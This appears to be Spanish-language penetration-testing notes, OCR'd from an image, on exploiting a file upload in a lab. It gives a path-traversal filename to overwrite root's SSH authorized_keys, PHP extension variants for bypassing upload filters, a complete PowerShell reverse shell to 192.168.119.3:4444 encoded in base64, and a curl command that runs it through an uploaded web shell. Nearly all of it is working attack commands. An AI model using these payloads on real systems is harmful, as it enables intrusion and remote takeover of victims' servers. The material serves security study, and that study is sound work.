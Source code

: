 ```sh
ssh-keygen
```

Podemos subir el siguiente archivo

```sh
../../../../../../../root/.ssh/authorized_keys
```

Y tratar de sobreescribir el archivo de ssh

En caso de error, eliminar el known_hosts

```sh
rm ~/.ssh/known_hosts
```
### Extensiones a utilizar

.phps
.php7
.php
.phtml
.pHP

### Powershell

```sh
pwsh
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.
https://aka.ms/powershell
Type 'help' to get help.
PS> $Text = '$client = New-Object 
System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = 
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, 
$bytes.Length)) -ne 0){;$data = (New-Object -TypeName 
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | OutString );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = 
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Leng
th);$stream.Flush()};$client.Close()'
PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS> $EncodedText =[Convert]::ToBase64String($Bytes)
PS> $EncodedText
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAF
MAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjA
GwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
PS> exit
```

```sh
curl http://192.168.50.189/meteor/uploads/simplebackdoor.pHP?cmd=powershell%20-
enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUA
dAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjA
GwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```
